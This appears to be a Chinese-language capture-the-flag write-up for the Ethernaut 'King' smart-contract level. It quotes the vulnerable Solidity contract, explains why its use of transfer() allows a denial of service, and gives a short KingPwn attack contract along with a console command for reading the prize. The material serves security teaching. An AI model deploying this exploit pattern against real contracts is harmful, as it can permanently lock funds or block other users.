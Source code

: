 # King


## 要求

```
下面的合约表示了一个很简单的游戏: 任何一个发送了高于目前价格的人将成为新的国王. 在这个情况下, 上一个国王将会获得新的出价, 这样可以赚得一些以太币. 看起来像是庞氏骗局.

这么有趣的游戏, 你的目标是攻破他.

当你提交实例给关卡时, 关卡会重新申明王位. 你需要阻止他重获王位来通过这一关.
```

## 代码
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    address king;
    uint256 public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value);
        king = msg.sender;
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}
```

## 分析

按照他这个写法，应该是在最后提交实例的时候，还会进入到 `receive`函数。
但是，但是，他调用了这个函数`payable(king).transfer(msg.value);`.

使用的`transfer`.transfer有一个问题，就是传输出错的时候，会调用`revert`。
也就说，只要实现`receive`或者`fallback`函数，他就没办法把钱转移回来。

## pwn

首先查看一下当前的prize:
```
await contract.prize().then(v=>v.toString())
'1000000000000000'
```
那我们只要被这个高就好了，

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract KingPwn{
    
    constructor()payable {

    }

    function pwn(address target)public {
        require(address(this).balance > 1000000000000000);
        address(target).call{value:address(this).balance}("");

    }
}
```